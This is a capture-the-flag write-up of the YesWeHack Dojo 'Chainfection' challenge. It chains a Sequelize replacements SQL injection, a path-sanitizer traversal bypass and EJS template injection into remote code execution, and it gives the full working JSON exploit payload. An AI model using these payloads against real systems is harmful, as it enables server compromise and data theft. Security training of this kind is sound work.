



Chainfection Write Up - Yeswehack Dojo 45
Summary
Chained vulnerability: an SQL injection is used to bypass the verify/date checks, then a path-traversal/file-write lets the attacker place malicious content into /tmp/view/index.ejs; when the app renders that template, the injected code executes, resulting in RCE.
A successful attack causes code execution, leading to the compromise of the server exposing sensitive/confidential data.
Exploitation
Use SQL injection to bypass the verify/updatedAt checks so user leet becomes selectable, update that user\u2019s attachment and write attacker-controlled content which resolves to /tmp/view/index.ejs, then trigger the template render to execute the injected code and achieve RCE.
Code Analysis
Setup code
fs.writeFileSync(`flag_${crypto.randomBytes(16).toString('hex')}.txt`, flag);
fs.writeFileSync('user/files/document.txt', 'test');
- Creates a flag file with a random name flag_.txt containing the secret flag.
- Also creates a helper file user/files/document.txt with the text test.
const Users = sequelize.define("User", {
name: DataTypes.STRING,
verify: DataTypes.BOOLEAN,
attachment: DataTypes.STRING,
});
async function init() {
await sequelize.sync();
await Users.create({ name: "brumens", verify: true, attachment: "document.txt" });
await Users.create({ name: "leet", verify: false, attachment: "" });
}
- Defines a User table with fields: name, verify, and attachment.
- Two users are inserted:
- brumens -> verified (verify: true), attachment = document.txt.
- leet -> not verified (verify: false), no attachment.
Challenge code
1. Input expected & validation
- What the code expects: a JSON string containing username, updatedat, attachment, and content.
- What getJsonInput does: parses the JSON and throws if any required key is missing or the JSON is invalid.
data = getJsonInput(decodeURIComponent(""))
// getJsonInput checks:
// - parses JSON
// - requires keys: "username", "updatedat", "attachment", "content"
- Update attachment field for user id=2
await Users.update(
{ attachment: data.attachment },
{ where: { id: 2 } }
);
2. Select a user (with mixed literal + conditions)
- the updatedAt date meets the strftime condition (literal with replacement),
- name equals data.username, and
- verify is true.
const user = await Users.findOne({
where: {
[Op.and]: [
sequelize.literal(`strftime('%Y-%m-%d', updatedAt) >= :updatedat`),
{ name: data.username },
{ verify: true }
],
},
replacements: { updatedat: data.updatedat },
})
3.- Build file path and write content
- The code uses psanitize to sanitize user.attachment, builds a path under /tmp/user/files/, and writes data.content into that file
const file = `/tmp/user/files/${psanitize(user.attachment)}`
fs.writeFileSync(file, data.content)
4.- Render the template
- What it does: loads /tmp/view/index.ejs and renders it with EJS.
console.log(ejs.render(fs.readFileSync('/tmp/view/index.ejs', "utf-8"), { filename: path.basename(filename), error: error }))
Thoughts
1. Path Traversal
-
I like tracing from sink back to source. As soon as I saw fs.writeFileSync(…) (file write sink) combined with ejs.render(…) (template render), I immediately suspected a path-traversal + file-write \u2192 template injection (EJS/EL) chain that can lead to RCE and reading the flag.
-
However, the psanitize call appears to sanitize filenames and blocks straightforward path-traversal attempts.

-
Back to the setup code I noticed path-sanitizer is pinned to 2.0.0, which is vulnerable CVE-2024-56198
const psanitize = require_v("path-sanitizer", "2.0.0");
Root cause and analysis(short, with code notes)
 Ref: The commit
Ref: The commit
1. Decode step turns encoded backslash into \:
- So the payload ..=%5c becomes ..=\.
sanitizedPath = sanitizedPath.replace(/%5c/g, '\\\\') // "%5c" -> "\\"
2. Not-allowed chars removal strips the = character:
//notAllowedRegEx: /:|\\$|!|'|"|@|\\+|**|\\||=/g
// (notAllowedRegEx includes '=')
sanitizedPath = sanitizedPath.replace(options.notAllowedRegEx, '')
3. Parent-directory checks were too naive \u2014 the old regex looked for canonical patterns like /../ or \..\
parentDirectoryRegEx = /[\\/\\\\]\\.\\.[\\/\\\\]/g
4. Normalization collapses the obfuscation into real traversal:
sanitizedPath = normalize(sanitizedPath)
-
path.normalize() (and the backslash\u2192slash replacements) will ultimately collapse ..\ into ../, yielding a true traversal token. At that point the path resolves outside the intended base directory.
-
With the attachment set to "..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5ctmp/view/index.ejs" the payload successfully performs path traversal and writes attacker-controlled content into /tmp/view/index.ejs.

2. SQL Injection
However, with the code below:
data = getJsonInput(decodeURIComponent(""))
await Users.update(
{ attachment: data.attachment },
{ where: { id: 2 } }
);
// Get user from database
const user = await Users.findOne({
where: {
[Op.and]: [
sequelize.literal(**strftime('%Y-%m-%d', updatedAt) >= :updatedat**),
{ name: data.username },
{ verify: true }
],
},
replacements: { updatedat: data.updatedat },
})
const file = **/tmp/user/files/${psanitize(user.attachment)}**
fs.writeFileSync(file, data.content)
-
Users.update(… where: { id: 2 }) writes the attachment value to the row with id = 2 (user leet). But the subsequent findOne only returns a record when name matches and verify === true. Since leet is created withverify: false, calling findOne with username = “leet” will return null (the verify condition fails), so user is null and fs.writeFileSync cannot run on user.attachment

-
Sequelize in the setup is pinned to 6.19.0:
const {Sequelize, DataTypes, Op, literal} = require_v("sequelize", "6.19.0");
-
This is significant because CVE-2023-25813 affects Sequelize versions prior to 6.19.1: a flaw in how replacements are injected into queries can lead to SQL injection, especially when replacements are used together with where/literal conditions.
-
Underlying issue: the replacements mechanism was interpolated directly into the SQL string instead of being bound safely.
-
When combined with where and literal(…), placeholders could be misapplied to other conditions. This caused unsafe string concatenation and opened the door to SQL injection.
-
Raw SQL (parameterized form, as built from literal + conditions):
SELECT *
FROM "Users"
WHERE strftime('%Y-%m-%d', updatedAt) >= :updatedat
AND "name" = :username
AND "verify" = 1;
- With my payload {“username”: “:updatedat”,“updatedat”: “OR id=2 OR”}, then would inject replacements in it, which resulted in this:
SELECT *
FROM "Users"
WHERE strftime('%Y-%m-%d', updatedAt) >= 'OR id=2 OR'
AND "name" = '' OR id=2 OR '' AND "verify" = 1;
- In SQL, it evaluates AND before OR
- The expression above is therefore grouped roughly as:
(
(strftime(...) >= 'OR id=2 OR' AND "name" = '')
OR id = 2
OR ('' AND "verify" = 1)
)
- The OR id = 2 term is independent of the failing AND clauses. If a row has id = 2, that OR term is true, so the whole WHERE becomes true and the row is returned \u2014 even though the name/verify checks are effectively broken by the injection.
- the injected OR id=2 short-circuits the WHERE logic because of operator precedence (AND binds tighter than OR), so matching id=2 is sufficient for selection.
3. Final Exploit
Payload
{
"username": ":updatedat",
"updatedat": "OR id=2 OR",
"attachment": "..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5ctmp/view/index.ejs",
"content": "<% const fs=process.mainModule.require('fs'), p=process.mainModule.require('path'); const dir='/tmp'; const f=fs.readdirSync(dir).find(n=>/^flag_[0-9a-f]+\\\\.txt$/.test(n)); const out=f?fs.readFileSync(p.join(dir,f),'utf8'):'no-flag'; %><pre><%- out %></pre>"
}
- What the payload does:
- Users.update(… where: { id: 2 }) stores the attachment value on the row with id = 2 (user leet).
- The findOne query uses a literal with replacements and the provided updatedat. Because of CVE-2023-25813 the :updatedat replacement is injected into the combined WHERE clause and the supplied “OR id=2 OR” fragment alters the boolean logic, causing the query to return the id=2 row (even though leet.verify is false).
- The code then computes file = /tmp/user/files/${psanitize(user.attachment)} and writes data.content into that path. Because the attachment value contains the ..=%5c… traversal payload and path-sanitizer@2.0.0 is vulnerable (CVE-2024-56198), the sanitized result resolves to /tmp/view/index.ejs and the attacker content is written into the template file.
- The app later renders /tmp/view/index.ejs with ejs.render(…). Because the attacker wrote EJS code into that file, the template runs on the server. The injected EJS reads /tmp/flag_.txt and prints it into the response (…flag..).
- Result: Remote Code Execution (template execution) and immediate disclosure of the flag (contents of the randomly named flag file) to the attacker.
